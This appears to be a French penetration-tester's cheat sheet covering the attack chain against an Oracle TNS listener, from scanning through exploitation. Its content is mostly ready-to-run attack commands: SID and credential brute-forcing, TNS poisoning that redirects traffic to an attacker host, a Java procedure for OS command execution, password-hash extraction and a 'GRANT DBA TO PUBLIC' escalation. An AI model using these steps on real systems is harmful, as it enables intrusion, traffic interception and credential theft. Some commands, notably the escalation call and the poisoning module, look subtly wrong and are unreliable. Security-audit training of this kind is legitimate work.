

Le protocole **Transparent Network Substrate (TNS)** est utilisé par Oracle Database pour gérer les connexions entre clients et serveurs. Une mauvaise configuration peut révéler des informations critiques, permettre un accès non autorisé et faciliter des attaques comme le **TNS Poisoning**.



## Détection du service Oracle TNS

Le **TNS Listener** écoute généralement sur les ports suivants :
- **1521 (TCP)** : Port par défaut
- **2483 (TCP)** : Oracle Database non chiffré
- **2484 (TCP)** : Oracle Database chiffré avec SSL

### Scan de version avec Nmap

```bash
nmap -p 1521,2483,2484 --script=oracle-tns-version target.com
```

Exemple de sortie :
```text
1521/tcp open  oracle-tns Oracle TNS Listener 12.2.0.1.0
```

## Identification du SID et du Service Name

Le **SID (System Identifier)** identifie une instance Oracle spécifique, tandis que le **Service Name** est le nom logique de la base.

### Récupération du SID

> [!info]
> L'utilisation de **tnscmd10g** est une méthode historique. Pour des environnements modernes, privilégiez les scripts Nmap ou des outils de scan dédiés.

```bash
tnscmd10g version -h target.com
```

### Bruteforce des SID

```bash
oscanner -s target.com -P 1521
```

Exemple de sortie :
```text
[+] Found SID: ORCL
```

## Énumération du TNS Listener

Le **TNS Listener** gère les connexions client-serveur. Il est possible d'extraire des informations sur les instances actives.

```bash
nmap -p 1521 --script=oracle-tns-serviceinfo target.com
```

Exemple de sortie :
```text
Service "ORCL" has 1 instance(s)
Instance "orcl", status READY, has 1 handler(s) for this service...
```

## Vérification de protection par mot de passe

> [!danger] Condition critique
> L'accès au listener sans mot de passe permet souvent de manipuler la configuration à distance.

### Test d'accès anonyme

```bash
tnscmd10g status -h target.com
```

Si le listener n'est pas protégé, il répond aux requêtes de statut. Pour sécuriser le service, le fichier **listener.ora** doit être configuré :

```ini
PASSWORDS_LISTENER = (mypassword)
ADMIN_RESTRICTIONS = ON
```

## Bruteforce des identifiants

> [!warning] Attention
> Le bruteforce peut verrouiller les comptes Oracle (Account Lockout Policy).

### Bruteforce avec Metasploit

```bash
msfconsole
use auxiliary/scanner/oracle/oracle_login
set RHOSTS target.com
set RPORT 1521
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```

### Bruteforce avec Hydra

```bash
hydra -L users.txt -P passwords.txt target.com oracle-listener
```

## Énumération des utilisateurs

Une fois l'accès à la base obtenu, l'énumération des privilèges est une étape clé pour la suite de l'audit, souvent liée aux techniques d'**Oracle Database Exploitation** et de **SQL Injection**.

### Requêtes SQL d'énumération

```sql
-- Lister les utilisateurs
SELECT username FROM all_users;

-- Vérifier les privilèges système
SELECT * FROM dba_sys_privs;
```

Exemple de sortie :
```text
USERNAME
-----------------
SYS
SYSTEM
SCOTT
HR
```

## Exploitation (TNS Poisoning / CVE-2012-1675)

Le **TNS Poisoning** permet d'intercepter le trafic entre le client et le serveur en enregistrant une instance malveillante auprès du listener.

> [!tip] Prérequis
> Nécessite un client Oracle ou des outils spécifiques installés sur la machine d'attaque (ex: tnscmd10g).

```bash
# Utilisation de Metasploit pour le TNS Poisoning
use auxiliary/admin/oracle/tnscmd10g
set RHOSTS target.com
set ACTION REGISTER
set REMOTE_SID ORCL
set REMOTE_HOST <attacker_ip>
run
```

## Post-Exploitation (Oracle SQL Injection, exécution de commandes)

Si l'utilisateur dispose du privilège `CREATE PROCEDURE` ou `JAVAUSER`, il est possible d'exécuter du code OS.

### Exécution via Java
```sql
-- Création d'une procédure Java pour exécuter des commandes
CREATE OR REPLACE AND RESOLVE JAVA SOURCE NAMED "CMD" AS
import java.io.*;
public class CMD {
    public static void run(String cmd) throws Exception {
        Runtime.getRuntime().exec(cmd);
    }
};
/
```

## Extraction de hashs Oracle

L'extraction des hashs permet de tenter un craquage hors-ligne pour obtenir les mots de passe en clair.

```sql
-- Extraction des hashs depuis la table système
SELECT username, password FROM dba_users;
```
*Note : Les versions récentes d'Oracle utilisent des algorithmes de hachage plus robustes (SHA-256/512).*

## Escalade de privilèges au sein de la base

L'objectif est d'atteindre le rôle `DBA` ou `SYSDBA`.

```sql
-- Vérification des privilèges courants
SELECT * FROM session_privs;

-- Escalade via une procédure vulnérable (si définie avec les droits du créateur)
EXECUTE sys.dbms_jvm_exp_perms.import_java_policy('GRANT DBA TO PUBLIC');
```

## Synthèse des outils d'énumération

| Étape | Commande |
| :--- | :--- |
| Scanner Oracle TNS | `nmap -p 1521,2483,2484 --script=oracle-tns-version target.com` |
| Identifier le SID | `oscanner -s target.com -P 1521` |
| Lister les services | `nmap -p 1521 --script=oracle-tns-serviceinfo target.com` |
| Tester le Listener | `tnscmd10g status -h target.com` |
| Bruteforce | `hydra -L users.txt -P passwords.txt target.com oracle-listener` |
| Lister utilisateurs | `SELECT username FROM all_users;` |

> [!note]
> Ces techniques s'inscrivent dans une phase de **Network Enumeration** plus large. Une fois les identifiants obtenus, des attaques de type **Password Attacks** peuvent être menées pour élever les privilèges au sein de la base. Référez-vous aux notes sur **Oracle Database Exploitation** et **SQL Injection** pour approfondir l'exploitation.